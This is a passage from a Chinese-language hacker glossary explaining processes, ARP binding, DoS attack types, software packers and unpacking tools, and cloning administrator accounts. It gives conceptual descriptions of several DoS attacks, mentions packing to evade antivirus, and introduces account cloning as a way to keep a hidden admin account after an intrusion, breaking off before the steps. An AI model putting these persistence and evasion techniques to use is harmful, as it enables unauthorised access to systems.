对应程序来说，进程就像一个大容器。在应用程序被运行后，就相当于将应用程序装进容器里了，你可以往容器里加其他东西（如应用程序在运行时所需的变量数据，需要引用的 DLL 文件等），当应用程序被运行两次时，容器里的东西并不会被倒掉，系统会找一个新的进程容器来容纳它。

我们可以在【任务管理器】中清楚地看到系统正运行着什么样的进程，如图 J-7。

**进程是由进程控制块、程序段、数据段三部分组成，一个进程可以包含若干【线程】。**

程序是死的，而进程是活的，下面给出一些基本的系统进程。在 WINXP 系统下，有了这些进程，系统才能正常运行。

- smss.exe — Session Manager
- csrss.exe — 子系统服务器进程
- winlogon.exe — 管理用户登录
- services.exe — 包含很多系统服务
- lsass.exe
- svchost.exe — 包含很多系统服务
- SPOOLSV.EXE — 将文件加载到内存中以便延后打印。（系统服务）
- explorer.exe — 资源管理器

### HACK TIPS:

很多病毒与木马利用底层的【钩子】（HOOK）技术可以在任务管理器中隐藏进程，此时可以借助【冰刃】将它们打回原形。

### 进程标识（操作系统及其相关）

PID 即进程标识符，用来标识进程，这样不会因为进程同名而混淆。我们可以打开任务管理器，在菜单上点“查看”－“选择列”，把 PID 调出来，然后就可在任务管理器里看到每个任务的 PID 了，如图 J-8。

### 进程树（操作系统及其相关）

一个应用程序运行后，还可能调用其它的进程来执行操作，这一组进程就形成了一个进程树（进程树可能是多级的，并非只有一个层次的子进程）。该应用程序称之为父进程，其所调用的对象称之为子进程。当结束一个进程树后，即表示同时结束了其所属的所有子进程。

举个简单的例子：在 Windows XP 的“运行”对话框中输入“cmd”启动命令行控制台，然后在命令行中输入“notepad”启动记事本。现在，命令行控制台进程“cmd.exe”和记事本进程“notepad.exe”就组成了一个进程树，其中“notepad.exe”进程是由“cmd.exe”进程创建的，前者称为子进程，后者称为父进程。

调出【任务管理器】，在“进程”页面中选择“cmd.exe”，右击鼠标并选择“结束进程树”命令，如图 J-9。







图 J-9

终止后，两个进程都被杀死了。如果在“notepad.exe”进程上结束进程树的话，“cmd.exe”进程则依旧运行。因此，结束进程树的特性就是在结束一个进程的同时，结束由该进程直接或间接创建的子进程。

那么结束进程树有什么应用呢？比如一些新型的【木马】服务端程序运行后，会同时生成两个木马进程，这两个进程互相监控、互相保护。对此类木马，我们就可以分别对两个木马进程尝试使用“结束进程树”命令，从而同时杀死两个木马进程，然后再删除木马服务端程序、清除注册表的启动数据，彻底清除木马。

### 进制（特定名称）

进制即数制，它是人们利用符号进行计数的科学方法。数制有很多种，在计算机中常用的数制有：【二进制】、【八进制】、十进制与【十六进制】。

### 静态 IP 地址（黑客技术基础）

静态 IP 地址即固定不变的 IP 地址，要获得静态 IP 必须找网络运营商（ISP）。现在网民上网一般用的是 ADSL，这种上网的方法是，网络运营商相当于在某一个范围内（电信的一个局，或城内的一个区，或乡下的一个县）用它们固有的电话线路连接网络，建立一个类似局域网的这么一个网络。当用户有上网要求时，也就是说接通了用户的“猫”时，网络运营商的局端就接到一个请示，这时局端的服务器就会分配给这个用户一个 IP。当这个用户下线后，局端的服务器就会把这个 IP 收回，当别的用户请求时再给别的用户。

同一用户，这次上网是这样的 IP，到下一次可能又是另一个了，所以 ADSL 的 IP 是动态的。光纤的 LAN 宽带上网也是这种情况，光纤到一个小区或一座楼，在这里进行光电转换，用 LAN 线输入到用户，也就是在这个小区内形成了一个小的局域网，它的速度比 ADSL 快一些。

要想有固定的 IP，就必须有专线拉入，比如光纤直接到户，这是一笔巨大的费用，所以一般只有专门的单位才会使用静态 IP，例如网站的服务器等。

### 静态 MAC 表（黑客技术基础）

静态 MAC 表即人工输入且不能随意更改的 MAC 与 IP 接口的对应表（对于个人计算机就是 IP 对于交换机的接口）。而一般在计算机或者各种网络设备上，为了使资源的最大化利用，都会使用动态的 MAC 表。现在之所以提倡使用静态 MAC 表，都是因为【ARP 病毒】泛滥所致。

设置静态 MAC 表就是将 IP 和 MAC 静态绑定，ARP 欺骗是通过 ARP 的动态实时规则欺骗内网机器，所以我们把 ARP 全部设置为静态，可以解决对内网 PC 的欺骗。同时，在网关也要进行 IP 和 MAC 的静态绑定，这样双向绑定才比较保险。

具体方法：

对每台主机进行 IP 和 MAC 地址静态绑定，可以通过命令：“arp -s IP MAC 地址”。例如：“arp -s 192.168.10.1 AA-AA-AA-AA-AA-AA”。

如果设置成功，可在 PC 上面通过执行 arp -a 看到相关的提示：

```text
Internet Address  Physical Address  Type
192.168.10.1      AA-AA-AA-AA-AA-AA  static(静态)
```

一般不绑定的话，在动态的情况下返回的提示如下：

```text
Internet Address  Physical Address  Type
192.168.10.1      AA-AA-AA-AA-AA-AA  dynamic(动态)
```

要注意的是，电脑每次重启后这些设置就会清除，所以最好写一个 BAT 放入【启动项】，这样才能保证每次计算机启动都是使用的静态 MAC 表。

### 静态页面

静态页面即不能与访问者进行数据交互的页面，与【动态页面】相对应。常见的静态页面语言为 HTML。

### HACK TIPS:

对于站长来说，多使用静态页面不仅可以增强安全性，也可以让搜索引擎抓取到更多的页面。

### 局域网

局域网（Local Area Network），简称 LAN，是指在某一区域内部多台计算机互联形成的计算机组。“某一区域”指的是同一办公室、同一建筑物、同一公司或同一学校等，一般是方圆几千米以内。局域网可实现文件管理、应用软件共享、打印机共享、扫描仪共享、工作组内的日程安排、电子邮件和传真通信服务等功能。局域网是封闭型的，可由办公室内的两台计算机组成，也可由一个公司内的上千台计算机组成。由于较小的地理范围，LAN 通常要比广域网（WAN）具有更高、更多的传输速率。

### 句柄

句柄在 Windows 编程中是一个很重要的概念，在许多地方都扮演着重要的角色。其解释也多种多样，主流解释有以下几种：

- 1）在 Windows 环境中，句柄是用来标识项目的。这些项目包括：模块（module）、任务（task）、实例（instance）、文件（file）、内存块（block of memory）、菜单（menu）、控制（control）、字体（font）、资源（resource）、图标（icon）、光标（cursor）、字符串（string）等。
- 2）句柄是 Windows 用来标识被应用程序所建立，或使用的对象的唯一整数。Windows 使用各种各样的句柄标识：诸如应用程序实例、窗口、控制、位图、GDI 对象等等。Windows 句柄有点像 C 语言中的文件句柄。

在 Windows 程序中，并不是用物理地址来标识一个内存块、文件、任务或动态装入模块的。相反，Windows API 给这些项目分配确定的句柄，并将句柄返回给应用程序，然后通过句柄来进行操作。

所以总的来说，句柄是一个标识符，是拿来标识对象或者项目的，它就像我们的姓名一样，每个人都会有一个，不同的人姓名不一样。但是，也可能有一个名字和你一样的人。从数据类型上来看，它只是一个 16 位的无符号整数，应用程序几乎总是通过调用一个 Windows 函数来获得一个句柄，之后其他的 Windows 函数就可以使用该句柄，以引用相应的对象。

## J 黑客词典

### 拒绝服务攻击（攻击方法与行为）

即 DoS，其全称为 Denial of Service，它是一种悠久而常见的攻击形式。严格来说，拒绝服务攻击并不是某一种具体的攻击方式，而是攻击所表现出来的结果，最终使得目标系统因遭受某种程度的破坏而不能继续提供正常的服务，甚至导致物理上的瘫痪或崩溃。

具体的操作方法可以是多种多样的，既可以是单一的手段，也可以是多种方式的组合利用，其结果都是一样，导致合法的用户无法访问所需信息。

通常的拒绝服务攻击可分为两种类型，这两种攻击既可以在本地网络上进行，也可以通过互联网进行。

**第一种是使一个系统或网络瘫痪。**

攻击者只需要发送少量的非法数据就可以使得系统死机或重新启动，造成无法访问，也没有人能够使用资源。在大多数情况下，需要管理员进行干预，对系统进行关闭或重新启动。

这种攻击是最具破坏力的，因为一个小动作就可以造成对整个系统的影响，而恢复却需要人工的干预。

**第二种攻击是向系统或网络发送大量信息，使系统或网络不能响应。**

例如，如果一个系统无法在一分钟之内处理 100 个数据包，而攻击者却每分钟向它发送 1000 个数据包，这时，当合法用户要连接系统时，他将得不到访问权，因为系统资源已经不足。

进行这种攻击时，攻击者必须连续地向系统发送数据包。当攻击者不再向系统发送数据包时，攻击停止，系统也就恢复正常了。利用此攻击方法需要耗费攻击者很多精力，因为他必须不断地发送数据。

虽然有时这种攻击会使系统瘫痪，但大多数情况下，恢复系统只需要少量人为干预。

### HACK TIPS:

以下为拒绝服务常见攻击类型：

- 1. Ping of Death  
根据 TCP/IP 的规范，一个包的长度最大为 65536 字节。当一个主机收到了长度大于 65536 字节的包时，就是受到了 Ping of Death 攻击，该攻击会造成主机的宕机。尽管一个包的长度不能超过 65536 字节，但是一个包分成的多个片段的叠加却能做到。由于这种手法非常原始，现在已经无法进行实战了。
- 2. Teardrop  
IP 数据包在网络传递时，可以分成更小的片段，攻击者可以通过发送两段或者更多段数据包来实现 Teardrop 攻击。比如发送的第一段数据包的偏移量为 0，长度为 N，那么发送的第二段数据包的偏移量就小于 N，以此类推。  
为了合并这些数据段，TCP/IP 堆栈会分配超乎寻常的巨大资源，从而造成系统资源的缺乏，甚至机器的重新启动。
- 3. Land  
攻击者将一个包的源地址和目的地址都设置为目标主机的地址，然后将该包通过 IP 欺骗的方式发送给被攻击主机，这种包可以造成被攻击主机因试图与自己建立连接而陷入死循环，从而很大程度地降低了系统性能。
- 4. Smurf  
该攻击向一个子网的【广播】地址发一个带有特定请求（如 ICMP 回应请求）的包，并且将源地址伪装成想要攻击的主机地址。子网上所有主机都回应广播包请求而向被攻击主机发送数据包，使该主机受到攻击。
- 5. SYN flood  
该攻击以多个随机的源主机地址向目的主机发送【SYN 包】，而在收到目的主机的 SYN ACK 后并不回应。这样，目的主机就为这些源主机建立了大量的连接队列，而且由于没有收到【ACK】，就一直维护着这些队列，造成了资源的大量消耗而不能向正常请求提供服务。由于这种方法难以从根本上得到解决，从 SYN 洪水出现到现在，防范其攻击一直难以解决。
- 6. Win Nuke  
这是以拒绝目的主机服务为目标的网络层次的攻击。攻击者向受害主机的 139 端口（即 netbios）发送大量的数据，由于这些数据并不是目的主机所需要的，所以会导致目的主机的死机。
- 7. RPC Locator  
攻击者通过 Telnet 连接到受害者机器的 135 端口上发送数据，导致 CPU 资源完全耗尽。依照程序设置和是否有其他程序运行，这种攻击可以使受害计算机运行缓慢或者停止响应。无论哪种情况，要使计算机恢复正常运行速度都必须重新启动。

### 绝对路径（黑客技术基础）

绝对路径是指我们平时文件所处在计算机中的完整路径。例如只要看到这样的路径：“D:\cody\book.txt”，我们就知道“book.txt”文件是在 D 盘的“cody”目录中。类似于这样完整的描述文件位置的路径就是绝对路径。与之相对应的是【相对路径】。


### 卡巴斯基（应用程序，安全技术）

卡巴斯基是目前主要流行的几大杀毒软件之一，它是俄罗斯的 Kaspersky Lab（卡巴斯基实验室）研制的。1989 年，卡巴斯基实验室的创始人 Eugene Kaspersky 开始研究计算机病毒现象。从 1991 年到 1997 年，他在俄罗斯大型计算机公司“KAMI”的信息技术中心，带领一批助手研发出了 AVP 反病毒程序。Kaspersky Lab 在他的领导下于 1997 年成立，如图 K-1。



在杀毒软件的历史上，有这样一个世界纪录：让一个杀毒软件的扫描引擎在不使用病毒特征库的情况下，扫描一个包含当时已有的所有病毒的样本库。结果是，仅仅靠“启发式扫描”技术，该引擎创造了 95% 检出率的纪录。这个纪录，是由 AVP 创造的。2000 年 11 月，AVP 更名为 Kaspersky Anti-Virus。Eugene Kaspersky 是计算机反病毒研究员协会（CARO）的成员。

卡巴斯基总部设在俄罗斯首都莫斯科，Kaspersky Labs 是国际著名的信息安全领导厂商。公司为个人用户、企业网络提供反病毒、防黑客和反垃圾邮件产品。经过十四年与计算机病毒的战斗，被众多计算机专业媒体及反病毒专业评测机构誉为病毒防护的最佳产品。

卡巴斯基有很高的警觉性，它会提示所有具有危险行为的进程或者程序，因此很多正常程序就会被它所谓“误报”，所以卡巴也经常出现“误杀门”事件。但是总体来说，卡巴斯基的杀毒能力确实是同类型产品中的佼佼者。

卡巴的特点如下：

- 1. **对病毒上报反应迅速**  
卡巴斯基具有全球技术领先的病毒运行虚拟机，可以自动分析 70% 左右未知病毒的行为。
- 2. **随时修正自身错误**  
杀毒分析是项繁琐的苦活，卡巴斯基并不是不犯错，而是犯错后立刻纠正，只要用户去信指出，误杀误报会立刻得到纠正。
- 3. **超强脱壳能力**  
无论你怎么加壳，只要程序体还能运行，就逃不出卡巴斯基的掌心。

卡巴斯基公司的病毒数据库是世界最大的病毒数据库之一，拥有超过 200000 个病毒样本。他们的许多病毒分析师都是计算机病毒学方面的知名专家，经常参加国际信息安全会议，并有专著出版。

## 开源——特定名称

开源是开放源代码的简称，也是许多人真正积极推动的一种思想与精神。自 Linus Torvalds 创建 Linux 以来，开源思想在软件界可谓盛极一时。那么，什么是开源呢？简单来说，“开源软件”就是源代码开放的软件。

对普通用户来说，开不开源其实意义不是很大，他们更在乎收不收费。由于开源软件大多都是免费下载的，所以一提起开源软件，很多人的第一反应就是免费软件。对一般用户这么说也未尝不可。不过对于商业用户来说，开源的意义就不一样了，首先它可以减少开发周期，因为源代码开放了，只需要稍做修改就可以嵌入到产品中去；其次，它可以降低成本，免费午餐不一定就不好吃（也有些开源软件需要收费，但价格都比较低廉）。

著名的开源软件有各种发布版本的 LINUX、MYSQL、APACHE 等。

由于开源思想源于计算机软件界，所以发展至今，计算机类开源产品的种类、数量都是很多的，使用也比较广泛。如在操作系统领域，Linux 在服务器市场就占据了相当大的份额，并持续扩张。IBM 公司销售的薄片式服务器中，大约有 75% 就运行着 Linux 操作系统；Web 方面，全球有百分之五十以上的 Web 服务器在使用开源的 Apache 系统；数据库，有针对互联网应用的轻量级数据库 MySQL，也有针对大型应用的 PostgreSQL。中国最大的门户网站之一新浪的后端数据库就采用了开源的 MySQL 数据库软件。

那么怎样才有资格被称为开源软件呢？总的来说，开放源代码软件的发布条款必须满足以下条件：

- 1. **自由地再发布**  
如果被发布的软件是由不同来源的程序组成的，许可证不得限制任何当事人或组织（party）销售或赠送作为被发布软件成分之一的开放源码软件。许可证不得从此项销售中索取使用费或其它任何费用。
- 2. **源代码**  
程序必须包括源代码，必须允许以源代码方式发布，还必须允许以编译后的形式发布。如果产品的某个部分没有与源代码一同发布，那么必须提供通行的、不需要支付合理范围之外的任何费用的手段以获得源代码——从网络上免费下载是一种可取的方式。源代码必须是程序员对其进行修改的最佳形式，故意地使源代码变得含混晦涩是不允许的，也不允许给出预处理器或翻译器处理的中间结果。
- 3. **派生作品**  
许可证必须允许修改软件和派生软件，并且必须允许它们按照原软件的许可证的条款进行发布。行发布。

- 4、**作者的源代码的完整性**

只有在许可证允许与源代码一同发布“补丁文件”（该“补丁文件”以在创建时对程序进行修改为目的）时，许可证才能限制对修改形式的源代码的发布。许可证必须明确地允许发布由修改后的源代码生成的程序。许可证可以要求派生的作品采用不同的名称，或不同的版本号，以区别于原来的软件。

- 5、**不得歧视任何个人或团体**

许可证不得歧视任何个人或者由多人组成的团体。

- 6、**不得歧视任何应用领域**

许可证不得限制任何人把程序应用于任何领域。例如，不得规定程序不能应用于商业领域或基因研究领域。

- 7、**许可证的发布**

与程序有关的权利必须适用于该程序的任何使用者，并且程序的使用者也不需要为了使用该程序而获得其它许可证的许可。

- 8、**许可证不能针对于一个产品**

与程序有关的权利不能由该程序是否作为某个软件产品的一部分来决定。如果程序从那个发布中被抽出来，并且按照程序的许可证条款进行使用和发布，那么得到该程序的当事人或组织将获得与得到原程序的使用者相同的权利。

- 9、**许可证不能影响其它软件**

许可证不得向与采用它的软件一同发布的其它软件提出任何限制。例如，许可证不能坚持要求在同一媒体上发布的其它程序都是开放源代码软件。

## 壳——加密解密

简单地说，壳是用来保护程序不受非法反编译的一段程序，在保护程序不受反编译的同时，有时还可以起到压缩的作用。

在自然界中，植物用它来保护种子，动物用它来保护身体。同样，在一些计算机软件里，也有一段专门负责保护软件不被非法修改或反编译的程序。由于这段程序和自然界的壳在功能上有很多相同的地方，基于命名的规则，大家就把这样的程序称为“壳”了。就像计算机病毒和自然界的病毒一样，其实都是命名上的方法罢了。

从功能上抽象，软件的壳和自然界中的壳相差无几，无非是保护、隐藏壳内的东西。而从技术的角度出发，壳是一段执行于原始程序前的代码，原始程序的代码在加壳的过程中可能被压缩、加密……当加壳后的文件执行时，壳这段代码先于原始程序运行，再把压缩、加密后的代码还原成原始程序代码，然后再把执行权交还给原始代码。

软件的壳分为加密壳、压缩壳、伪装壳、多层壳等类型，目的都是为了隐藏程序真正的 OEP（入口点）。

对于程序编写人员来讲，加壳主要有以下几个原因：

- 1. 有一些版权信息需要保护起来，不想让别人随便改动，如作者的姓名等信息，或为了保护软件不被破解，通常都是采用加壳来进行保护。
- 2. 需要把程序搞得小一点，从而方便使用，于是需要用到一些软件，它们能将 exe 可执行文件压缩。
- 3. 用来进行免杀保护。

最常用的加壳软件有：ASPACK、UPX、Pecompact 等。

软件加壳是作者写完软件后，为了保护自己的代码或维护软件产权等利益所常用到的手段。目前有很多加壳工具，既然有盾，自然就有矛，只要我们收集全常用脱壳工具，那就不怕他加壳了。

**现在脱壳一般分手动和自动两种**，手动就是用 TRW2000、TR、SOFTICE 等调试工具操作，对脱壳者有一定水平要求，涉及到很多汇编语言和软件调试方面的知识；而自动就是用专门的脱壳工具来脱。有些压缩壳有人写出了反压缩工具，如 ASPACK 就需要 UNASPACK 来对付；而有些压缩工具自身就能解压，如 UPX。

## HACK TIPS:

- 自动脱壳时，根据不同的壳会选择不同的工具，以下是常用脱壳工具：
- 1. 文件分析工具（侦测壳的类型）：Fi、GetTyp、PEiD、PE-Scan
- 2. OEP 入口查找工具：SoftICE、TRW、OllyDbg、Loader、PEiD
- 3. Dump 工具：IceDump、TRW、PEditor、ProcDump32、LordPE
- 4. PE 文件编辑工具：PEditor、ProcDump32、LordPE
- 5. 重建 Import Table 工具：ImportREC、ReVirgin
- 6. ASProtect 脱壳专用工具：Caspr（ASPr V1.1-V1.2 有效）、Rad（只对 ASPr V1.1 有效）、Loader、PEiD

## 可移动磁盘  硬件

许多移动存储装置在电脑上都显示为“可移动磁盘”，如图 K-2，其中最主要的是移动硬盘、U 盘和 MP3 等可与计算机设备分离，并在断电后仍可存储数据信息的可移动设备。



可移动磁盘从字面上讲就是可以移动的磁盘，而磁盘是一种存储设备，故可移动磁盘就是可移动的存储设备。目前应该分为两大类：一类是基于芯片存储的 U 盘或闪盘；一类是基于硬盘的移动硬盘。移动硬盘又因硬盘的不同，可分为笔记本移动硬盘和台式机移动硬盘。一般可移动硬盘都是通过 USB 接口与电脑相连。

- 常见的移动存储器有：
- 1. U 盘。
- 2. 笔记本移动硬盘（一般大小为直径 2.5 英寸），是目前移动硬盘的主流，容量在 120GB-250GB 居多，特点是体积还算不大，抗震性能也可以。
- 3. 台式机移动硬盘（一般大小为直径 5 英寸），特点是使用台式机硬盘作存储设备，外加移动硬盘外壳及外接电源、数据传输线材等，目前主流是 160GB-320GB。缺点是体积稍大，不利于携带，抗震也稍差。

## 可执行文件  操作系统及其相关

简单地说，可执行文件就是指自己执行自己的文件，它可以直接加载到内存中，并由操作系统加载程序执行。它的【扩展名】可以是 exe 或 dll、com、bat，这些都是可执行文件。在 Windows 下，可执行文件的格式称为 PE 格式。

## 克隆管理员  渗透技术

即克隆账户。

## 克隆账户  渗透技术

克隆账户又称克隆管理员，是入侵后保住战果的常用技术，这是建立【隐藏账户】最常用的方法。网络上也有很多这样的工具，最著名的当属【小榕】的 CA 了。因为工具克隆很简单，下面只讲一下在图形界面下手工克隆管理员账户的基本方法。

克隆管理员技术的核心思想在于将管理员账户在【注册表】的信息全部复制到另一个普通用户的注册表【键值】上去，但其中的关键在于必须具有【系统权限】才能访问注册表存放信息的位置。这种方法在 Windows 2000/2003 下实现起来并不困难。

在 Windows 2000/2003 有两个注册表编辑器：**regedit.exe** 和 **regedt32.exe**，WinXP 中的 regedit.exe 和 regedt32.exe 实为一个程序。

